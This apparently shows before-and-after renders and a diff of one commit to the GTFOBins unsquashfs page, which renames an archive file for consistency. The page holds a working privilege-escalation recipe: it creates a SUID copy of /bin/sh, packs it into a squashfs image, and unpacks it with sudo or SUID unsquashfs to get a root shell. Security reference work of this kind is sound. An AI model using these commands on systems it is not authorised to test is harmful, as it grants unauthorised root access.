

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/unsquashfs.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Consistency

````diff
--- a/_gtfobins/unsquashfs.md
+++ b/_gtfobins/unsquashfs.md
@@ -5,17 +5,17 @@ description: |
   ```
   cp /bin/sh .
   chmod +s sh
-  mksquashfs sh shell.sqfs
+  mksquashfs sh x.sqfs
   ```
 
   Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
 functions:
   sudo:
     - code: |
-        sudo unsquashfs ./shell.sqfs
+        sudo unsquashfs ./x.sqfs
         ./squashfs-root/sh -p
   suid:
     - code: |
-        unsquashfs -d $TF ./x.sqfs
+        unsquashfs ./x.sqfs
         ./squashfs-root/sh -p
 ---
````
